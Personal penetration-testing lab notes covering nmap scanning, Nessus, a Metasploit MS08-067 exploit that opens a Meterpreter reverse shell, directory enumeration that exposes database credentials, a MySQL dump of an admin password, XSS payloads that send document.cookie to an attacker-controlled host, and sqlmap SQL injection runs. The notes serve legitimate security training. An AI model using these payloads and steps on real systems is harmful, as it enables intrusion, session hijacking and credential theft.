

Labs

# Labs

## Prerequisites

### HTTP(S) Traffic Sniffing

- Make sure to capture from tap0 (Use `ip addr` to find network interface linked to VPN)
    
    

### Find the Secret Server

Steps

1.  Check your current network configuration
2.  Connect to the lab and check your routes
3.  Visit the two web servers
4.  Add a route manually

https://devconnected.com/how-to-add-route-on-linux/
List routes: `ip r`
Command Used `sudo ip route add 192.168.222.0/24 via 10.175.34.1 dev tap0`


## Basics

### Scanning and OS Fingerprinting

```
$ nmap -sP 10.142.111.241/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-24 22:23 +08
Nmap scan report for 10.142.111.1
Host is up (0.24s latency).
Nmap scan report for 10.142.111.6
Host is up (0.47s latency).
Nmap scan report for 10.142.111.48
Host is up (0.24s latency).
Nmap scan report for 10.142.111.100
Host is up (0.59s latency).
Nmap scan report for 10.142.111.213
Host is up (0.64s latency).
Nmap scan report for 10.142.111.241
Host is up (0.00011s latency).
Nmap done: 256 IP addresses (6 hosts up) scanned in 10.67 seconds

```

```
[hacker@archlinux ~]$ fping -a -g 10.142.111.240/24 2>/dev/null
10.142.111.1
10.142.111.6
10.142.111.48
10.142.111.96
10.142.111.99
10.142.111.100
10.142.111.240
[hacker@archlinux ~]$ fping -a -G 10.142.111.240/24 2>/dev/null
[hacker@archlinux ~]$ nmap -sP 10.142.111.240/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 10:21 +08
Nmap scan report for 10.142.111.1
Host is up (0.34s latency).
Nmap scan report for 10.142.111.6
Host is up (0.32s latency).
Nmap scan report for 10.142.111.48
Host is up (0.29s latency).
Nmap scan report for 10.142.111.96
Host is up (0.30s latency).
Nmap scan report for 10.142.111.99
Host is up (0.33s latency).
Nmap scan report for 10.142.111.100
Host is up (0.29s latency).
Nmap scan report for 10.142.111.213
Host is up (0.36s latency).
Nmap scan report for 10.142.111.240
Host is up (0.013s latency).
Nmap done: 256 IP addresses (8 hosts up) scanned in 16.96 seconds
[hacker@archlinux ~]$ cd /tmp
[hacker@archlinux tmp]$ nano hosts.txt 
[hacker@archlinux tmp]$ sudo nmap -sV -iL hosts.txt
[sudo] password for hacker:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:52 +08
[hacker@archlinux tmp]$ sudo nmap -sS -iL hosts.txt
[sudo] password for hacker:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:57 +08
Stats: 0:02:24 elapsed; 0 hosts completed (7 up), 7 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 98.70% done; ETC: 11:59 (0:00:02 remaining)
Nmap scan report for 10.142.111.1
Host is up (0.35s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
MAC Address: 00:50:56:A2:4A:59 (VMware)

Nmap scan report for 10.142.111.6
Host is up (0.32s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:50:56:A2:B8:B6 (VMware)

Nmap scan report for 10.142.111.48
Host is up (0.29s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
MAC Address: 00:50:56:A2:58:0A (VMware)

Nmap scan report for 10.142.111.96
Host is up (0.32s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:50:56:A2:4E:B2 (VMware)

Nmap scan report for 10.142.111.99
Host is up (0.35s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
MAC Address: 00:50:56:A2:EE:6E (VMware)

Nmap scan report for 10.142.111.100
Host is up (0.30s latency).
All 1000 scanned ports on 10.142.111.100 are closed
MAC Address: 00:50:56:A2:4E:B2 (VMware)

Nmap scan report for 10.142.111.213
Host is up (0.30s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
81/tcp open  hosts2-ns
MAC Address: 00:50:56:A2:4E:B2 (VMware)

Nmap scan report for 10.142.111.240
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 8 IP addresses (8 hosts up) scanned in 151.33 seconds
[hacker@archlinux tmp]$ sudo nmap -sV -iL hosts.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:53 +08
Stats: 0:00:30 elapsed; 0 hosts completed (0 up), 7 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 50.00% done; ETC: 11:54 (0:00:00 remaining)
Stats: 0:01:45 elapsed; 0 hosts completed (7 up), 7 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 62.57% done; ETC: 11:56 (0:00:45 remaining)
Stats: 0:02:00 elapsed; 0 hosts completed (7 up), 7 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 75.04% done; ETC: 11:56 (0:00:30 remaining)
Stats: 0:02:53 elapsed; 0 hosts completed (7 up), 7 undergoing Service Scan
Service scan Timing: About 23.08% done; ETC: 11:56 (0:00:23 remaining)
Nmap scan report for 10.142.111.1
Host is up (0.31s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.4p1 (FreeBSD 20100308; protocol 2.0)
53/tcp open  domain  dnsmasq 2.55
80/tcp open  http    lighttpd 1.4.29
MAC Address: 00:50:56:A2:4A:59 (VMware)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Nmap scan report for 10.142.111.6
Host is up (0.38s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
MAC Address: 00:50:56:A2:B8:B6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.142.111.48
Host is up (0.30s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:50:56:A2:58:0A (VMware)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Nmap scan report for 10.142.111.96
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
MAC Address: 00:50:56:A2:B8:B6 (VMware)

Nmap scan report for 10.142.111.99
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.4p1 (FreeBSD 20100308; protocol 2.0)
53/tcp open  domain  dnsmasq 2.55
80/tcp open  http    lighttpd 1.4.29
MAC Address: 00:50:56:A2:EE:6E (VMware)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Nmap scan report for 10.142.111.100
Host is up (0.32s latency).
All 1000 scanned ports on 10.142.111.100 are closed
MAC Address: 00:50:56:A2:B8:B6 (VMware)

Nmap scan report for 10.142.111.213
Host is up (0.36s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
81/tcp open  http    Apache httpd 2.2.22 ((Debian))
MAC Address: 00:50:56:A2:B8:B6 (VMware)

Nmap scan report for 10.142.111.240
Host is up (0.00059s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 8 IP addresses (8 hosts up) scanned in 183.77 seconds
[hacker@archlinux tmp]$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 52:54:00:12:34:56 brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute ens3
       valid_lft 85719sec preferred_lft 85719sec
    inet6 fec0::ad6c:16f0:2440:c980/64 scope site dynamic noprefixroute
       valid_lft 85858sec preferred_lft 13858sec
    inet6 fe80::4713:3085:e71:5086/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tap0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether ea:cf:43:d6:9e:94 brd ff:ff:ff:ff:ff:ff
    inet 10.142.111.240/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::98c4:d1ff:febb:623d/64 scope link
       valid_lft forever preferred_lft forever
```

## Nessus

```
└─# nmap -sn 192.168.99.70/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 21:14 +08
Nmap scan report for 192.168.99.50
Host is up (0.34s latency).
MAC Address: 00:50:56:A0:CB:43 (VMware)
Nmap scan report for 192.168.99.70
Host is up.
Nmap done: 256 IP addresses (2 hosts up) scanned in 14.45 seconds
└─# nmap -sV 192.168.99.50                                                  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 21:16 +08             Nmap scan report for 192.168.99.50                                          Host is up (0.49s latency).
Not shown: 997 closed ports                                                 PORT    STATE SERVICE      VERSION                                          135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn                    445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds                MAC Address: 00:50:56:A0:CB:43 (VMware)                                     Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp                                                                                                                                  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                          Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds

```

```
└─# /opt/nessus/sbin/nessus-service
nessusd (Nessus) 8.15.0 [build 20271] for Linux                             Copyright (C) 1998 - 2021 Tenable, Inc.                                                                                                                 Cached 0 plugin libs in 1msec
Processing the Nessus plugins...                                            [==================================================] 100%                                                                                               All plugins loaded (0sec)                                                                                                                               
        nessusd (Nessus) 8.15.0 [build 20271] for Linux                     Copyright (C) 1998 - 2021 Tenable, Inc.                                                                                                                 Processing the Nessus plugins...
[=====.............................................] 10%                    [==================================================] 100%
                                                                            All plugins loaded (8292sec)
Cached 0 plugin libs in 0msec                                               Processing the Nessus plugins...                                            [==================================================] 100%
                                                                            All plugins loaded (165sec)                                                 ^[b5^[[B                                                                    ─ 
```

https://www.programmersought.com/article/96436830311/

```
msf5 > search ms08_067                                                                                                                                  Matching Modules
================                                                                                                                                           #  Name                                 Disclosure Date  Rank   Check  Description          msf6 > use exploit/windows/smb/ms08_067_netap                               [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp                                                                                Matching Modules                                                            ================                                                                                                                                           #  Name                                 Disclosure Date  Rank   Check  Description                                                                      -  ----                                 ---------------  ----   -----  -----------                                                                      0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption                                                                                                                                                                      Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi                                                                                                                       [*] Using exploit/windows/smb/ms08_067_netapi                                                            -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption              
                                                                            
msf6 > use exploit/windows/smb/ms08_067_netap                               [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp                                                                                Matching Modules                                                            ================                                                                                                                                           #  Name                                 Disclosure Date  Rank   Check  Description                                                                      -  ----                                 ---------------  ----   -----  -----------                                                                      0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption                                                                                                                                                                      Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi                                                                                                                       [*] Using exploit/windows/smb/ms08_067_netapi
msf6 exploit(windows/smb/ms08_067_netapi) > show options
                                                                            Module options (exploit/windows/smb/ms08_067_netapi):                                                                                                      Name     Current Setting  Required  Description                             ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR iden                                         tifier, or hosts file with syntax '                                         file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVS
                                       VC)                                  

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------                            EXITFUNC  thread           yes       Exit technique (Accepted: '', seh,
                                         thread, process, none)
   LHOST     172.30.139.180   yes       The listen address (an interface m
                                        ay be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 192.168.99.50
RHOSTS => 192.168.99.50
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 192.168.99.70
LHOST => 192.168.99.70
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
[*] Started reverse TCP handler on 192.168.99.70:4444
[*] 192.168.99.50:445 - Automatically detecting the target...
^[[A^[[A^[[A^[[A[*] 192.168.99.50:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.99.50:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.99.50:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 192.168.99.50
[*] Meterpreter session 1 opened (192.168.99.70:4444 -> 192.168.99.50:1034) at 2021-08-04 06:48:24 +0800
```

[My\_Basic\_Network\_Scan\_lpj66s.nessus.xml](../../_resources/23b5ea6efd944a729b1f444456092e87.xml)


## Dirbuster

```
# nmap -sn 10.104.11.50/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 22:45 +08             Nmap scan report for 10.104.11.96                                           Host is up (0.41s latency).                                                 MAC Address: 00:50:56:A5:B8:CA (VMware)
Nmap scan report for 10.104.11.198                                          Host is up (0.28s latency).                                                 MAC Address: 00:50:56:A5:B8:CA (VMware)                                     Nmap scan report for 10.104.11.50                                           Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 14.31 seconds
# nmap -sV 10.104.11.96                                                   Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 22:47 +08             Nmap scan report for 10.104.11.96                                           Host is up (0.46s latency).
Not shown: 998 closed ports                                                 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)           
80/tcp open  http    Apache httpd 2.2.22 ((Debian))                         
MAC Address: 00:50:56:A5:31:1F (VMware)                                     
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.64 seconds
# nmap -sV 10.104.11.198                                                  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 22:48 +08             Nmap scan report for 10.104.11.198
Host is up (0.46s latency).
Not shown: 998 closed ports                                                 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
3306/tcp open  mysql   MySQL 5.5.38-0+wheezy1                               MAC Address: 00:50:56:A5:B8:CA (VMware)                                     Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                          Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

```
└─# dirb http://10.104.11.96                                                                                                                            -----------------                                                           DIRB v2.22                                                                  By The Dark Raver
-----------------                                                                                                                                       START_TIME: Wed Aug  4 22:50:00 2021                                        URL_BASE: http://10.104.11.96/                                              WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------                                                                                                                                                                                                                   GENERATED WORDS: 4612                                                                                                                                   ---- Scanning URL: http://10.104.11.96/ ---- 
```


Interesting links

1.  /tmp : goes nowhere
2.  /staff : /staff/readme.txt

```
@Dev Team: ALWAYS make a backup copy of any file in production.

Copy it by changing its extension to old, bak, xxx or whatever you want, but do not blindly overwrite a file!

Thanks
 Your project manager
```

3.  /default : CSS


4.  /include
    


```
$dbhostname='127.0.0.1';
$dbuser='awd';
$dbpassword='UcuicjsQgG0FILdjdL8D';
$dbname='awd';
```

Testing on mysql
5\. /images : useless


Trying other wordlist and enumeration

```
$ gobuster dir -u http://10.104.11.96 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x html,php,js                                               1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.104.11.96
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php,js
[+] Timeout:                 10s
===============================================================
2021/08/07 22:42:06 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.104.11.96/images/]
/news.php             (Status: 200) [Size: 2826]                                 
/index.php            (Status: 200) [Size: 2272]                                 
/default              (Status: 200) [Size: 5376]                                 
/login.php            (Status: 200) [Size: 2072]                                 
/header.php           (Status: 200) [Size: 1694]                                 
/awards.php           (Status: 200) [Size: 7475]                                 
/signup.php           (Status: 200) [Size: 2415]                                 
/staff                (Status: 301) [Size: 312] [--> http://10.104.11.96/staff/] 
/footer.php           (Status: 200) [Size: 233]                                  
/style                (Status: 301) [Size: 312] [--> http://10.104.11.96/style/] 
/announce             (Status: 200) [Size: 604]                                  
/include              (Status: 301) [Size: 314] [--> http://10.104.11.96/include/]
/tmp                  (Status: 301) [Size: 310] [--> http://10.104.11.96/tmp/]    
/offline.php          (Status: 200) [Size: 2091]       
```


The credentials dont work on the website

Logging in through mysql

```
┌──(kali㉿kali)-[/media/sf_Stuff]
└─$ mysql -u awdmgmt -pUChxKQk96dVtM07 -h 10.104.11.198 awdmgmt_accounts                                                                                            1 ⨯
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 37712
Server version: 5.5.38-0+wheezy1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [awdmgmt_accounts]> SHOW TABLES
    -> 
    -> ;
+----------------------------+
| Tables_in_awdmgmt_accounts |
+----------------------------+
| accounts                   |
+----------------------------+
1 row in set (0.242 sec)

MySQL [awdmgmt_accounts]> SELECT * FROM accounts;
+----+--------------------+----------+-------------+
| id | email              | password | displayname |
+----+--------------------+----------+-------------+
|  1 | admin@awdmgmt.labs | ENS7VvW8 | Admin       |
+----+--------------------+----------+-------------+
1 row in set (0.245 sec)

MySQL [awdmgmt_accounts]> 
```


## XSS




Feedback Page


Given help


Exploit

```
<script>
xhr.open('GET', "192.168.99.11", true);
xhr.send(document.cookie);
</script>
```


```
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', '192.168.99.11', true);
xhr.send(document.cookie);
</script>
```


```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "192.168.99.11", true);
xhr.send(document.cookie);
</script>
```

Success in posting

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "192.168.99.11/get.php", true);
xhr.send(document.cookie);
</script>
```


```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://192.168.99.11/get.php", true);
xhr.send(document.cookie);
</script>
```


Another exploit


```
<script>
var i = new Image();
i.src = "http://192.168.99.11/get.php?"+document.cookie;
</script>
```
Works


Reading the guidethrough said user script fails if you have alert payload 
so have to reset lab


XSS weak spots
1. Contact - Subject
2. Search Field

## SQL Injection
Username | Password | Result
--|--|--
 `' OR 1==1;--` | `' OR 1==1;--` | Notice: Trying to get property of non-object in /var/www/login.php on line 12
 
 
```
└─$ sqlmap -u http://10.124.211.96 --forms --crawl=2
        ___
       __H__                                                                                                                                                            
 ___ ___[,]_____ ___ ___  {1.5.2#stable}                                                                                                                                
|_ -| . [)]     | .'| . |                                                                                                                                               
|___|_  [(]_|_|_|__,|  _|                                                                                                                                               
      |_|V...       |_|   http://sqlmap.org                                                                                                                             

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:22:23 /2021-08-08/

do you want to check for the existence of site's sitemap(.xml) [y/N] y
[03:22:25] [WARNING] 'sitemap.xml' not found
[03:22:25] [INFO] starting crawler for target URL 'http://10.124.211.96'
[03:22:25] [INFO] searching for links with depth 1
[03:22:25] [INFO] searching for links with depth 2                                                                                                                     
please enter number of threads? [Enter for 1 (current)] 
[03:22:27] [WARNING] running in a single-thread mode. This could take a while
do you want to normalize crawling results [Y/n] y                                                                                                                      
do you want to store crawling results to a temporary file for eventual further processing with other tools [y/N] 
[03:25:01] [INFO] found a total of 2 targets
[#1] form:
POST http://10.124.211.96/login.php
POST data: username=&password=&submit=Login
do you want to test this form? [Y/n/q] 
> y
Edit POST data [default: username=&password=&submit=Login] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] y
[03:25:11] [INFO] using '/home/kali/.local/share/sqlmap/output/results-08082021_0325am.csv' as the CSV results file in multiple targets mode
[03:25:11] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[03:25:11] [WARNING] if the problem persists please check that the provided target URL is reachable. In case that it is, you can try to rerun with switch '--random-agent' and/or proxy switches ('--proxy', '--proxy-file'...)                                                                                                                 
[03:25:12] [INFO] testing if the target URL content is stable
[03:25:12] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] 
[03:25:14] [CRITICAL] can't check dynamic content because of lack of page content
[03:25:14] [INFO] testing if POST parameter 'username' is dynamic
[03:25:14] [WARNING] POST parameter 'username' does not appear to be dynamic
[03:25:14] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[03:25:15] [INFO] testing for SQL injection on POST parameter 'username'
[03:25:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:25:18] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:25:18] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:25:20] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:25:21] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:25:24] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:25:26] [INFO] testing 'Generic inline queries'
[03:25:27] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:25:28] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:25:30] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:25:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:25:43] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[03:26:01] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:26:01] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[03:26:01] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[03:26:01] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[03:26:02] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[03:26:05] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
[04:32:02] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[04:32:02] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[04:32:07] [INFO] target URL appears to be UNION injectable with 1 columns
[04:32:08] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
[04:32:47] [INFO] testing if POST parameter 'password' is dynamic
[04:32:47] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[04:32:47] [WARNING] POST parameter 'password' does not appear to be dynamic
[04:32:47] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[04:32:48] [INFO] testing for SQL injection on POST parameter 'password'
[04:32:48] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[04:32:51] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[04:32:51] [INFO] testing 'Generic inline queries'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] 
[04:32:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[04:33:12] [WARNING] POST parameter 'password' does not seem to be injectable
[04:33:12] [INFO] testing if POST parameter 'submit' is dynamic
[04:33:12] [WARNING] POST parameter 'submit' does not appear to be dynamic
[04:33:12] [WARNING] heuristic (basic) test shows that POST parameter 'submit' might not be injectable
[04:33:13] [INFO] testing for SQL injection on POST parameter 'submit'
[04:33:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[04:33:14] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[04:33:15] [INFO] testing 'Generic inline queries'
[04:33:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[04:33:30] [WARNING] POST parameter 'submit' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 221 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=IwEj' AND (SELECT 7848 FROM (SELECT(SLEEP(5)))popd) AND 'ebkN'='ebkN&password=&submit=Login
---
do you want to exploit this SQL injection? [Y/n] Y
[04:33:56] [INFO] the back-end DBMS is MySQL
[04:33:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[04:33:56] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Debian 7 (wheezy)
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL >= 5.0.12
n
URL 2:
GET http://10.124.211.96/newsdetails.php?id=26
do you want to test this URL? [Y/n/q]
> n

[04:34:26] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-08082021_0325am.csv'
[04:34:26] [WARNING] your sqlmap version is outdated

[*] ending @ 04:34:26 /2021-08-08/

                                                
```


Was a bit stuck but cross refered a bit
```
┌──(kali㉿kali)-[/media/sf_Stuff/Hacking/pts]
└─$ sqlmap -u http://10.124.211.96/newsdetails.php --forms --crawl=2
        ___
       __H__                                                                                                                                                            
 ___ ___[.]_____ ___ ___  {1.5.2#stable}                                                                                                                                
|_ -| . [']     | .'| . |                                                                                                                                               
|___|_  [.]_|_|_|__,|  _|                                                                                                                                               
      |_|V...       |_|   http://sqlmap.org                                                                                                                             

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

